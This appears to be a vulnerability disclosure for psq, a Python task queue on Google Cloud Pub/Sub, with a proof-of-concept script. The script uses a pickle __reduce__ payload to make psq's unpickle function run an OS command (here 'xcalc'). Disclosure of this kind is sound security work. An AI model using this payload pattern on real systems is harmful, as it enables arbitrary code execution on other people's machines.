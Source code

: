 # Description
psq is an example Python implementation of a simple distributed task queue using Google Cloud Pub/Sub.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install psq')
from psq import utils
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
dumps = pickle.dumps(ArbitraryCode())
utils.unpickle(dumps)
```
* `pip3 install psq`
* `python3 exploit.py`
